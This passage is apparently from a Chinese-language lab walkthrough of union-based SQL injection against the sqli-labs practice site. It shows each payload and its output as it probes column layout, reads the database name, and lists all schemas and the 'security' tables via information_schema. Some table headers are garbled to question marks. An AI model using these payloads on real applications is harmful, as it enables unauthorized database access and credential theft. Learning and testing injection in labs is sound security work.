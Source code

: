 ```sql
id=1' union select 1,2,3 -- 
=> SELECT * FROM users WHERE id='1' union select 1,2,3 -- ' LIMIT 0,1
			+----+----------+----------+
			| id | ???????? | ???????? |
			+----+----------+----------+
			|  1 | Dumb     | Dumb     |
			|  1 | 2        | 3        |
			+----+----------+----------+
			-- Login name: Dumb		Password: Dumb
id=2' and 1=2 union select 1,2,3 -- 
=> SELECT * FROM users WHERE id='2' and 1=2 union select 1,2,3 -- ' LIMIT 0,1
			+----+----------+----------+
			| id | ???????? | ???????? |
			+----+----------+----------+
			|  1 | 2        | 3        |
			+----+----------+----------+
			-- Login name: 2		Password: 3
			可知第二列与用户名相关,第三列与密码相关
```

用`database()`函数爆当前SQL语句执行的数据库名：

```sql
id=1' AND 1=2 UNION SELECT 1,DATABASE(),3 --+
=> SELECT * FROM users WHERE id='1' AND 1=2 UNION SELECT 1,DATABASE(),3 -- ' LIMIT 0,1
			-- Login name: security	Password: 3
			可知当前数据库名为security
```

用`information_schema`数据库中的`schemata`表爆所有数据库名，果然存在之前爆出的`security`：

```sql
id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 -- 
=> SELECT * FROM users WHERE id='1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 -- ' LIMIT 0,1
			+----+----------------------------------------------------------------------+----------+
			| id | ????????                                                             | ???????? |
			+----+----------------------------------------------------------------------+----------+
			|  1 | information_schema,challenges,mysql,performance_schema,security,test | 3        |
			+----+----------------------------------------------------------------------+----------+
			-- Login name: information_schema,challenges,mysql,performance_schema,security,test		Password: 
```

用`information_schema`数据库中的`tables`表爆`security`数据库的所有表名：

```sql
id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 -- 
=> SELECT * FROM users WHERE id='1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 -- ' LIMIT 0,1
			-- Login name: emails,referers,uagents,users	-- Password: 3
```

